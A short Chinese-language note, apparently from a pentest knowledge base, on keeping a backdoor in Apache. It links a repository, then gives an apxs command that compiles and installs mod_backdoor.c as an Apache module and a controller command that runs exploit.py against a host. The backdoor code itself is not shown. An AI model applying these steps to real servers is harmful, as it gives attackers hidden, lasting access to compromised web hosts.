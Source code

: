 ```yaml
---
title: Apache后门维持
id: zhfly2810
---
```


# Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```
apxs -i -a -c mod_backdoor.c && service apache2 restart 
```

![image](../img/aa7c71fb4c7577267dfc94626d3280d5.png)

### 2、控制端执行方法

```
python exploit.py 127.0.0.1 80 
```

![image](../img/1cc07c0b5bf4f77114ea83a55e6b005c.png)